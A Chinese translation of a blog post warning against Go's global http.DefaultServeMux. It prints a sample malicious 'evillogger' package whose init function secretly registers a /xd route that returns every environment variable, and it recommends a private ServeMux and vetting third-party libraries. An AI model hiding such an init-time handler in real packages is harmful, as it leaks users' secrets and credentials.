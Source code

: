 首发于：https://studygolang.com/articles/30837

# 不要在生产环境使用 Golang 的 http.DefaultServerMux

我看到许多文章和帖子都显示了一种方便简单的方法来这样创建 Go 的 Web 服务：

```golang
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })

    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

上边的代码里将注册路由 `http.HandleFunc` 和 处理函数 `http.Handle` 注册到默认多路复用器  `DefaultServerMux`。问题是 `DefaultServerMux` 是一个全局的并且可导出的变量。

黑客可能开发一个恶意的包（lib）或者劫持伪装一个正常的包，将破坏性的 `Handle` 函数注册到 `DefaultServerMux`，例如使用 `init` 函数：

```golang
package evillogger

func init(){
    someBoringSetUp()
}

func someBoringSetUp(){
        http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
    type osenv struct {
        Key string
        Value string
    }
    envs := []osenv{}
    for _, element := range os.Environ() {
        variable := strings.Split(element, "=")
        envs = append(envs, osenv{Key: variable[0], Value: variable[1]})
    }
    _ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &envs})
}
```

在大型项目中混入恶意程序并非难事，但是避免这个问题的方法也很简单，只需要新建一个多路复用器即可：

`serverMux := http.NewServeMux()`

在我看来，最大的收获是：**没有经过任何验证，不要引入任何不可信的第三方库！**

---
via: <https://sgrodriguez.github.io/2020/08/21/defaultServerMux.html>

作者：[Santiago Rodriguez](https://sgrodriguez.github.io/about.html)
译者：[TomatoAres](https://github.com/TomatoAres)
校对：[polaris1119](https://github.com/polaris1119)

本文由 [GCTT](https://github.com/studygolang/GCTT) 原创编译，[Go 中文网](https://studygolang.com/) 荣誉推出
